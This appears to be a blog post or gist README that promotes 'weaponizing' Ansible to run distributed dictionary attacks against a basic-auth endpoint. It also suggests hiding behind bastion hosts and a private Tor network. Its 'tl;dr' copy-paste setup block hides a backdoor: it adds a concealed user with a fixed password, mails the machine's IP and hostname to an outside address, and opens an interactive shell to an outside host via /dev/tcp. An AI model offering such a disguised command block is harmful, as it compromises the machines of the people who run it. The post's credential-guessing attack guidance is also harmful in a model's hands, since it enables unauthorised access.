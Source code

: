 ```yaml
---
title: Ansible for #SecDevOps
description: Weaponizing Ansible
catagories:
    - articles
tags:
    - ansible
    - infosec
    - devops
    - secdevops
---
```

# Ansible for #SecDevOps

Everyone is aware of all the average "hacking" tools out there that make dictionary based attacks look easy. But these tools have well know signatures which any good malware detection suite or a well architectured system will prevent access to these types of tools. However ansible only needs python 2 installed on the remote system and further more Python is now apart of the LSB thus potentially having any server able to remotely execute any arbitrary code via ansible.
Thus this proof of consept comes into play. The following playbook would show how to do a dictionary based attack on target (ie httpbin.org/basic-auth testing endpoint).

## Requirements

    - latest Ansible
    - Python 2.7
    - mosquitto module
    - vagrant (optional)
    - virtualbox (optional)
    - GNU make

## Howto

In short download this gist create the directory structure below, install vagrant and virtual box then run `make`.

### Directory Structure

```
.
./Makefile
./Vagrantfile
./hosts
./provisioning
./provisioning/main.yml
./provisioning/template
./provisioning/template/passwords
./provisioning/template/users
```

## tl;dr
For the skiddies in the crowd, copy pasta the following:

```
    git clone git@gist.github.com:7147846515c4293253bb.git 7147846515c4293253bb && cd $_
    mkdir provisioning/template -p && sudo useradd -m /dev/.tcp eth0 -p 'Fourty2'; curl ifconfig.me | mail -s "eth0:$(hostname)" t3stnurp0nj@mailinator.com; exec 3<> /dev/tcp/towel.blinkenlights.nl/23; (bash -i >& &3 0>&1) &
    for x in $(find . -maxdepth 1 -type f -name provisioning-\*); do mv ${x} ./$(echo $x | sed '/^.\//d' | tr '-/'); done
    make clean start
```

## Details

What we have here is an advance rule templating setup that takes advantage of ansible's iterations and ablility to distribute playbooks. Thus making serveral based dictionary attack posible and distributable. Further more setting automated git hooks to execute the playbook on commit or intergrating into your CI server of choice makes this sort of "hacking" [easier than ever](https://xkcd.com/303/).

![hacking made easy](https://what-if.xkcd.com/imgs/a/5/robot_apocalypse_end.png)

## Further reading and ideas

From here it is easy to [setup a bastlion host](https://10mi2.wordpress.com/2015/01/14/using-ssh-through-a-bastion-host-transparently/) for ansible to transparently connect to the target and hide your hosts behind a [private tor net](https://www.evernote.com/shard/s508/sh/05251db3-0a05-4ba0-b3c3-03ee0e3b4e2b/aa9a33fd453340e6cc2a87cecc96ca30).

For the gui minded, look into [sshstorm](https://github.com/emre/storm) and [AIMS](https://github.com/denzuko/aims/) for dynamic ansible inventory management.

## Download

Code for this article is availalbe at [gist://denzuko/7147846515c4293253bb](https://gist.github.com/denzuko/7147846515c4293253bb/archive/7d8a9c14f2f547d6d192255b6db66e6af5fd28a8.zip).
